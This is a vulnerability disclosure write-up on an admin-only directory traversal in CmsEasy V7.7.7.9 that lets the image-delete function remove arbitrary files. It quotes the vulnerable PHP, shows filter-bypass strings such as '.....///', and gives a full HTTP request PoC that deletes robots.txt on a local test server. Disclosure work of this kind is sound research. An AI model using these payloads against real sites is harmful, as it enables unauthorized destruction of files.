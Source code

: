 # CmsEasy Directory Traversal Leading to Arbitrary File Deletion Vulnerability

------

**Note: This vulnerability requires backend privileges**

------



# Vendor Information

**Developer:** 四平市九州易通科技有限公司 Siping Jiuzhou Yitong Technology Co., Ltd.

**Product Information:** CmsEasy V7.7.7.9 20240105

**Official Website:** https://www.cmseasy.cn/

**Product Source Code Download Address:** https://ftp.cmseasy.cn/CmsEasy7.x/CmsEasy_7.7.7_UTF-8_20240105.zip



# Trigger Points

**Note: This vulnerability requires backend privileges**

Located in `lib/admin/image_admin.php` within the function `deleteimg_action`. **Note: In this project, `front::get` is equivalent to `$_GET`.**

**Objective:** Trigger the `if (!unlink($img))` statement.

```php
function deleteimg_action() {
        if (!front::get('dir') || !front::get('imgname'))
            return;
        if (is_dir(front::get('dir')))
            return;
        $imgname=str_replace('___', '.', front::get('imgname'));
        $imgname = str_replace('#', '', $imgname);
        $imgname = str_replace('../', '', $imgname);
        $imgname = str_replace('./', '', $imgname);
        $img = ROOT . rtrim(config::get('html_prefix'),'/').'/upload/images/' . front::get('dir') . '/' . $imgname;
        if (!file_exists($img))
            front::flash(lang_admin('picture').lang_admin('nonentity'));
        if (!unlink($img))   // ---------目标触发点---------------
            front::flash(lang_admin('deleete').lang_admin('failure').'，'.lang_admin('please_check_permissions'));
        else
            front::flash(lang_admin('picture').lang_admin('ondelete'));
        front::redirect(url::modify('act/listimg/dir/' . front::get('dir')));
    }

    function end() {
        //$this->render('index.php');
        $this->render();
    }
```



# Vulnerability Analysis



## Bypassing the Filtering

The function includes protection measures, but its filtering is not strict enough, allowing for bypass.

Note: `config::get('html_prefix')` is a fixed value `cn`, which enables directory traversal via controlling the `dir` parameter.

```php
        $img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
        $img = str_replace('.php', '', $img);
        $img = str_replace('#', '', $img);
        $img = str_replace('../', '', $img);
        $img = str_replace('./', '', $img);
```

**Bypass Methods: Two Approaches**

**Method One:** Use conventional path parsing combined with rewriting

```php
.....///.....///
=>result in
../../
```

**Method Two:** Leverage Windows path parsing characteristics:

```
..\\ or ..\
```

Similarly, if you want to traverse PHP files, you only need to construct `.p.phphp`.

**Code Verification:**

```php
<?php
function check_url($tpl){
   $tpl = str_replace('.php', '', $tpl);
    $tpl = str_replace('#', '', $tpl);
    $tpl = str_replace('../', '', $tpl);
    $tpl = str_replace('./', '', $tpl);
    return $tpl;
}
$str1 = '.p.phphp';
$str2 = '.....///.....///';  

$path1 = check_url($str1);
$path2 = check_url($str2);

echo 'path1:  ' . $path1 . "\n";  // path:  .php
echo 'path2:  ' . $path2 . "\n"; // path1:  ../../
```

## Request Construction

After testing, we can conclude the following:

Request analysis:

```http
http://127.0.0.1:5678/index.php?case=database&act=backAll&admin_dir=admin&site=default
```

- The `case` parameter corresponds to the business logic file located under the `lib/admin` directory (in this example, it is `database_admin.php`).
- The `act` parameter corresponds to the `xxxx_action` function within the file pointed to by `case` (in this example, it is the `backAll_action()` method).
- The `admin_dir` parameter is the backend directory parameter (this vulnerability requires backend privileges).
- The `site` parameter is the default parameter if not configured (it has no impact).



So, based on this, we construct the request with `{xxxx}` serving as the injection point for (`dir` and `imgname`).

```htt[
http://127.0.0.1:5678/index.php?case=image&act=deleteimg&admin_dir=admin&site=default&dir={xxxx}&imgname={XXXX}
```



## POC Construction and Verification

According to the explanation of the function earlier:

```php
$img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
```

This results in appending `dir` and `imgname` to the directory `/cn/upload/images/`.

![image-20250202190322616](/assest/cmseasy/vul-2-2-2/1.png)

Among them, the directories `202012` and `201908` are fixed template static resources. (According to FoFa testing, most targets have image files under the `202012` directory; for example, the external mapping of a sample image resource is `/images/banner/s1.jpg`.)

We attempt to delete `robots.txt` (located in the root directory).

![image-20250202190358977](/assest/cmseasy/vul-2-2-2/2.png)



Construct Request Message:

```http
GET /index.php?case=image&act=deleteimg&admin_dir=admin&site=default&dir=202012&imgname=.....///.....///.....///.....///robots.txt HTTP/1.1
Host: 192.168.107.1:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kedh3tpmobjfgci55hvqskpfq6; login_username=admin; login_password=UcaU5eNfvRIM4QKU5SNaASI45RKg6egPvR7A%253DSNhregCK2ab18391e6e61e99aff8e10d05e4ad02
referer: http://192.168.107.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Connection: keep-alive


```

A response of 302 is normal, as redirection is in place.

![image-20250202190514892](/assest/cmseasy/vul-2-2-2/3.png)

Upon inspection, it was found that `robots.txt` was successfully deleted.

![image-20250202190533970](/assest/cmseasy/vul-2-2-2/4.png)



**Vulnerability Verification Successful**

















